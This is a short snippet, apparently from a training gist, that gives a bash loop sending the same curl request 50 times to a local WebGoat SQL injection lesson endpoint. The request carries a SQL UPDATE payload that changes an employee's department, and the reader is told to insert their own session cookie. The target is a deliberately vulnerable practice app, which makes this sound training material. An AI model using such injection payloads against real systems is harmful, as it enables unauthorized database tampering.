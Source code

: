 #### WebGoat SQL Injection Attack Curl 

Log into WebGoat, get your JSESSIONID using your browser’s developer tools, substitute into the curl enclosed below before running it
```
for i in `seq 1 50`; do curl 'http://localhost:8080/WebGoat/SqlInjection/attack3' \

  -H 'Connection: keep-alive' \

  -H 'Accept: */*' \

  -H 'X-Requested-With: XMLHttpRequest' \

  -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.96 Safari/537.36' \

  -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' \

  -H 'Origin: http://localhost:8080' \

  -H 'Sec-Fetch-Site: same-origin' \

  -H 'Sec-Fetch-Mode: cors' \

  -H 'Sec-Fetch-Dest: empty' \

  -H 'Referer: http://localhost:8080/WebGoat/start.mvc' \

  -H 'Accept-Language: en-US,en;q=0.9' \

  -H 'Cookie: JSESSIONID=PUT_YOUR_JESSIONID_HERE; splunkweb_csrf_token_8000=18159023846143267062; token_key=18159023846143267062; experience_id=285a0507-9785-adc6-dba2-e63189e1ea3a' \

  --data-raw $'query=UPDATE+employees+SET+department+%3D+\'Sales\'+WHERE+first_name+%3D+\'Tobi\'%3B' \

  --compressed;

done
```
